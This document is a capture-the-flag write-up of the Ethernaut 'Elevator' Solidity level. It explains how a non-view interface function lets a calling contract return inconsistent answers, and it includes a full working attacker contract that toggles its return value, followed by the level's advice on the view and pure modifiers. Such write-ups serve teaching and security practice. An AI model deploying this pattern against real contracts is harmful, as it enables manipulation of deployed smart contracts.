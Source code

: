 # Elevator 🛗

Eleventh Challenge description is as follows:

This elevator won't let you reach the top of your building. Right?

Things that might help:
- Sometimes solidity is not good at keeping promises.
- This `Elevator` expects to be used from a `Building`.

Code:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
  function isLastFloor(uint) external returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}

```

### Resolution
The goal of the level is to set the `top` variable to `true` when you call the `goTo` function.

For what we can see in the code and one of the clues, we need to call the `goTo` function from a contract that implements `Building` interface method `isLastFloor(uint)` and return a bool value.

The "problem" relies in the check `if (! building.isLastFloor(_floor))` because we could return `false` so that check passes but then the `top` variable will be set to `false` as well.

So solution, should be an implementation that returns `false` the first time, and next time it's called returns `true`. There's many ways to go about this implementation, but a key thing here is that there's no other modifier on the interface definition like `view` or `pure` that doesn't allow us to change the state, so we can easily create a contract with an internal variable that changes every time is called.

 Let's explore that solution:

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;

// Define the interface of Elevator so we can call the method easily:
interface IElevator {
    function goTo(uint _floor) external;
}

// Define the interface of Building to implement
interface Building {
  function isLastFloor(uint) external returns (bool);
}

// Make Contract conform to Building:
contract Attack__Elevator is Building {
    
    // Elevator Contract:
    IElevator private elevatorContract;

    // Internal variable on our contract that we are allowed to modify:
    bool private lastFloor;

    // Constructor - create elevator reference and set variable to false
    constructor(address _elevatorAddress) {
        elevatorContract = IElevator(_elevatorAddress);
        lastFloor = false;
    }

    function callGoTo(uint floor) external {
        elevatorContract.goTo(floor);
    }

    // Implementation that changes value every time is called
    function isLastFloor(uint) override external returns (bool) {
        bool lastFloorReturn = lastFloor;
        lastFloor = !lastFloor;
        return lastFloorReturn;
    }
}
```

Deploy the contract, call `callGoTo` and Bob is your uncle XD! 

After beating the level, there's a great feedback on this level vulnerability:

You can use the `view` function modifier on an interface in order to prevent state modifications. The `pure` modifier also prevents functions from modifying the state. Make sure you read [Solidity's documentation](http://solidity.readthedocs.io/en/develop/contracts.html#view-functions) and learn its caveats.

An alternative way to solve this level is to build a view function which returns different results depends on input data but don't modify state, e.g. `gasleft()`.

## License

[MIT](https://choosealicense.com/licenses/mit/)
